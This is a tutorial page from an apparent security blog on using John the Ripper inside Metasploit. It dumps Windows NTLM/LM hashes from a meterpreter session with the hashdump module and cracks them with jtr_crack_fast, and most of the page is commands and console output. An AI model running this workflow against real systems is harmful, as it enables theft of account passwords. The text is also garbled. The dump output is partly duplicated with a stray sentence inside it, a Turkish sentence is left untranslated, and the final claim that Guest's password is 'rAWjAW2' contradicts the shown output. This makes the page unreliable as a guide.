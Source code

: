 ```yaml
---
draft: false
title: John The Ripper in Metasploit
linkTitle: John The Ripper
translationKey: msf-inside-john-the-ripper
weight: 270
date: 2017-06-05T13:42:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: John The Ripper is an application used to crack complex passwords with complex algorithms. It tries to crack hash codes saved as hash using some word lists.
url: /msf-inside-john-the-ripper/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## John the Ripper

John The Ripper is a program used to solve complex algorithm passwords. It tries to solve codes recorded as hashes using a set of word lists.

You can also use John The Ripper in Metasploit. John the Ripper, which will be used here, deals with simple algorithms. Let's state that you need to work outside of Metasploit for very complex and advanced hash codes. John the Ripper in Metasploit only allows you to perform an initial process to solve LM or NTLM hash codes. Let's see with an example.

First, let's assume that we have logged into the target computer with meterpreter. Let's activate the `post/windows/gather/hashdump` module for the session that is active as `session 1` and get the hash information.

```bash
msf auxiliary(handler) > use post/windows/gather/hashdump
msf post(hashdump) > set session 1
session => 1

msf post(hashdump) > run

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY bffad2dcc991597aaa19f90e8bc4ee00...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...
Administrator:500:cb5f77772e5178b77b9fbd79429286db:b78fe104983b5c754a27c1784544fda7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:810185b1c0dd86dd756d138f54162df8:7b8f23708aec7107bfdf0925dbb2fed 7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
> Post module execution completedYou can see the hash information on the screen. 7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
> Post module execution completed
```

Hash bilgilerini ekranda görebilirsiniz. Now let's use the `auxiliary/analyze/jtr_crack_fast` module.

```bash
msf post(hashdump) > use auxiliary/analyze/jtr_crack_fast
msf auxiliary(jtr_crack_fast) > run

> Seeded the password database with 8 words...

guesses: 3 time: 0:00:00:04 DONE (Sat Jul 16 19:59:04 2011) c/s: 12951K trying: WIZ1900 - ZZZ1900
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: D (cred_6:2)
> Output: PASSWOR (cred_6:1)
> Output: GG (cred_1:2)
Warning: mixed-case charset, but the current hash type is **case**-insensitive;
some candidate passwords may be unnecessarily tried more than once.
guesses: 1 time: 0:00:00:05 DONE (Sat Jul 16 19:59:10 2011) c/s: 44256K trying: **||**V} - **||**|}
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: Remaining 4 password hashes with no different salts
> Output: (cred_2)
guesses: 0 time: 0:00:00:00 DONE (Sat Jul 16 19:59:10 2011) c/s: 6666K trying: 89093 - 89092
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: Remaining 3 password hashes with no different salts
guesses: 1 time: 0:00:00:11 DONE (Sat Jul 16 19:59:21 2011) c/s: 29609K trying: zwingli1900 - password1900
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: password (cred_6)
guesses: 1 time: 0:00:00:05 DONE (Sat Jul 16 19:59:27 2011) c/s: 64816K trying: **||**|}
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: Remaining 5 password hashes with no different salts
> Output: (cred_2)
guesses: 0 time: 0:00:00:00 DONE (Sat Jul 16 19:59:27 2011) c/s: 7407K trying: 89030 - 89092
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: Remaining 4 password hashes with no different salts

[+] Cracked: Guest: (192.168.184.134:445)
[+] Cracked: rAWjAW2:password (192.168.184.134:445)
> Auxiliary module execution completed
msf auxiliary(jtr_crack_fast) >
```

As can be seen, the password for the user `Guest` at the IP address `192.168.184.134` was found to be `rAWjAW2`.
